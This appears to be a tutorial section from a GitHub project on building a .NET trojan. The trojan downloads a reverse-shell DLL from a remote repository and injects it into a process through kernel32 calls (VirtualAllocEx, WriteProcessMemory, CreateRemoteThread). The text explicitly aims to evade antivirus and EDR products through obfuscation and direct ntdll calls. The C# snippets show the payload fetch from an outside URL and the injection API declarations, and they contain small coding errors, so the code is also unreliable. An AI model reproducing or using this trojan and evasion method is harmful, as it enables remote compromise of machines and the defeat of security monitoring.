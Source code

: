 In order for us to execute our reverse_shell.dll at runtime with .NET, we will need to make use of system calls (syscalls).
By utilizing certain Windows APIs we can instruct the operating system to allocate memory for us, marshall our shellcode into that memory space, and subsuquently execute the shellcode.
It is important to realize that during this process our .NET program will not be able to identify some errors that are a result of your shellcode, you will need to extensively test your trojan prior to compiling to ensure it works properly at runtime.
If you are marshalling data back and forth between your shellcode and your .NET application, be very careful because things may silently fail or crash the .NET program.
This is especially true when returning strings from your shellcode to your .NET app.

We can use the kernel32.dll which exists on all windows machines to execute our low level systemcalls for loading our shellcode.
The APIs exported by the kernel32.dll will then call even lower level APIs located within the ntdll.dll.
The ntdll.dll sits on the edge of both user and kernel space. 
In the past AV and EDR solutions would hook into the kernel32.dll and inspect function calls located in that library. 
A typical bypass you could have used was to directly call APIs in ntdll.dll library, however nowadays AV vendors also hook ntdll.dll to identify suspicious behavior.
With sufficient obfuscation however, we should be able to avoid getting flagged by AV and EDR products.
In our C# application we will retrieve our shellcode as a byte array and execute a syscall to execute our payload as observed in Injection.cs example:

```c#
    public static byte[] maliciousDll = GetMaliciousDll("https://raw.githubusercontent.com/bakarilevy/TheKillchain/main/reverse_shell.json");

    public static byte[] GetMaliciousDll(string url) {
        using (var client = new HttpClient())
        using (HttpResponseMessage response = await client.GetAsync(url))
        {
            byte[] maliciousDll = await response.Content.ReadAsByteArrayAsync();
        }
        return maliousDll;
    }

```

In this snippet we can see that our C# application is able to remotely load our Nim DLL into memory from a remote repository, this can of course be changed very easily so that we can host our reverse shell on another platform.

```c#
    [DllImport("Kernel32.dll", SetLastError = true)]
    static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);

    [DllImport("Kernel32.dll", SetLastError = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("Kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [MarshalAs(UnmanagedType.AsAny)] object lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("Kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

    [DllImport("Kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);
``` 
